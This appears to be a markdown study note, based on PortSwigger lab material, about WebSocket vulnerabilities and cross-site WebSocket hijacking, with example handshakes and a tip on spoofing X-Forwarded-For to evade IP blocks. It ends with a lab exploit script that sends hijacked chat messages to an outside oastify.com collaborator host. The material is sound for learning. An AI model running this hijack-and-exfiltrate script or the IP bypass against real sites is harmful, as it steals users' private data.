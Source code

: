 ## WebSockets security vulnerabilities

In principle, practically any web security vulnerability might arise in relation to WebSockets:

1. User-supplied input transmitted to the server might be processed in unsafe ways, leading to vulnerabilities such as SQL injection or XML external entity injection.
2. Some blind vulnerabilities reached via WebSockets might only be detectable using out-of-band (OAST) techniques.
3. If attacker-controlled data is transmitted via WebSockets to other application users, then it might lead to XSS or other client-side vulnerabilities.

**Note:** In some cases you can bypass ip based restrictions while testing via `X-Forwarded-For` header if there any malicious activity detected by server.

## What makes a WebSocket vulnerable to CSWSH?

* Uses cookie-based authentication (cookies are sent automatically).
* Does not validate the `Origin` header during the handshake.
* Sends or receives sensitive data after connection.
* Does not require extra authentication after connecting.

---

**Vulnerable WebSocket handshake request:**

```
GET /chat HTTP/1.1
Host: vulnerable.example.com
Upgrade: websocket
Connection: Upgrade
Sec-WebSocket-Key: dGhlIHNhbXBsZSBub25jZQ==
Sec-WebSocket-Version: 13
Origin: https://attacker.com
Cookie: session=abcd1234efgh5678ijkl9012mnop3456
```

**Vulnerable response:**

```
HTTP/1.1 101 Switching Protocols
Upgrade: websocket
Connection: Upgrade
Sec-WebSocket-Accept: s3pPLMBiTxaQ9kYGzzhZRbK+xOo=
```

*The server accepts the connection despite the cross-origin `Origin`. This allows attackers to hijack the session.*

---

**Non-vulnerable WebSocket handshake request:**

```
GET /chat HTTP/1.1
Host: secure.example.com
Upgrade: websocket
Connection: Upgrade
Sec-WebSocket-Key: dGhlIHNhbXBsZSBub25jZQ==
Sec-WebSocket-Version: 13
Origin: https://attacker.com
Cookie: session=abcd1234efgh5678ijkl9012mnop3456
```

**Non-vulnerable response:**

```
HTTP/1.1 403 Forbidden
Content-Type: text/plain

Invalid Origin: https://attacker.com
```

*The server rejects the connection because the `Origin` does not match the allowed domain, preventing CSWSH.*

---

### Manipulating Websocket Messages
The majority of input-based vulnerabilities affecting WebSockets can be found and exploited by tampering with the contents of WebSocket messages.

For example, suppose a chat application uses WebSockets to send chat messages between the browser and the server. When a user types a chat message, a WebSocket message like the following is sent to the server:
<br>
<br>
`{"message":"test"}`

In this situation, provided no other input processing or defenses are in play, an attacker can perform a proof-of-concept XSS attack by submitting the following WebSocket message:

<img width="1915" height="229" alt="Screenshot From 2025-07-27 23-21-33" src="https://github.com/user-attachments/assets/793568d5-00b8-4182-99e6-98d3a67da6a4" />

### Cross-site WebSocket hijacking
Cross-site WebSocket hijacking (also known as cross-origin WebSocket hijacking) involves a cross-site request forgery (CSRF) vulnerability on a WebSocket handshake. 

<img width="1917" height="203" alt="Screenshot From 2025-07-28 01-00-37" src="https://github.com/user-attachments/assets/20807506-024e-47a2-a976-35c8cd6339e5" />

It arises when the WebSocket handshake request relies solely on HTTP cookies for session handling and does not contain any CSRF tokens or other unpredictable values.

[Cross-site WebSocket hijacking](https://portswigger.net/web-security/websockets/cross-site-websocket-hijacking/lab)

####  Exploit
```js
<script>
    var ws = new WebSocket('wss://0a820003036953d283898de6004b0013.web-security-academy.net/chat');
    ws.onopen = function() {
        ws.send("READY");
    };
    ws.onmessage = function(event) {
        fetch('https://agus9fqks1acunox6p9wrogmndt4hv5k.oastify.com', {method: 'POST', mode: 'no-cors', body: event.data});
    };
</script>
```
